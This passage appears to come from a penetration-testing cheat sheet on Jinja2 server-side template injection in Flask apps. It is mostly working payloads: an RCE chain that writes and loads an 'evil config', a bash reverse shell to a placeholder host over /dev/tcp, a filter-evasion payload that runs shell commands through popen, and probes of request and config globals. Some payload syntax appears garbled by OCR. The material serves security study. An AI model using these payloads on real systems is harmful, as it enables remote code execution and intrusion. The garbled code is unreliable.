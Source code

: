 ```
**The `safe`** filter allows us to inject JavaScript and HTML into the page **without** it being **HTML encoded**, like this:

```python
{{''|safe}}
#will be

```
```
**RCE by writing an evil config file.**

```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[['/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n'|40]] }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config[['/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True|'RUNCMD']] }}
```
```
## Without several chars

Without **`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`**

```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}




```
```
## Jinja Injection without **\<class 'object'>**

From the [[jinja2-ssti.md#accessing-global-objects|**global objects**]] there is another way to get to **RCE without using that class.**\
If you manage to get to any **function** from those globals objects, you will be able to access **`__globals__.__builtins__`** and from there the **RCE** is very **simple**.

You can **find functions** from the objects **`request`**, **`config`** and any **other** interesting **global object** you have access to with:

```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
- from_json
- from_mapping
- get_namespace
- __repr__
```